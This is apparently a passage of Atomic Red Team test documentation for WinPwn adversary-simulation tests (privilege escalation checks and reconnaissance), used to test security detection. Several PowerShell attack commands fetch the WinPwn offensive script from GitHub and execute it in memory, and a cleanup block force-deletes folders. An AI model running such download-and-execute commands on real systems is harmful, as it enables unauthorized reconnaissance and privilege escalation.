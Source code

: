 #### Cleanup Commands:

```powershell
rm -force -recurse .\DomainRecon -ErrorAction Ignore
rm -force -recurse .\Exploitation -ErrorAction Ignore
rm -force -recurse .\LocalPrivEsc -ErrorAction Ignore
rm -force -recurse .\LocalRecon -ErrorAction Ignore
rm -force -recurse .\Vulnerabilities -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #17 - WinPwn - General privesc checks

General privesc checks using the otherchecks function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 5b6f39a2-6ec7-4783-a5fd-2c54a55409ed

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
otherchecks -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #18 - WinPwn - GeneralRecon

Collect general computer informations via GeneralRecon function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 7804659b-fdbf-4cf6-b06a-c03e758590e8

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Generalrecon -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #19 - WinPwn - Morerecon

Gathers local system information using the Morerecon function of WinPwn
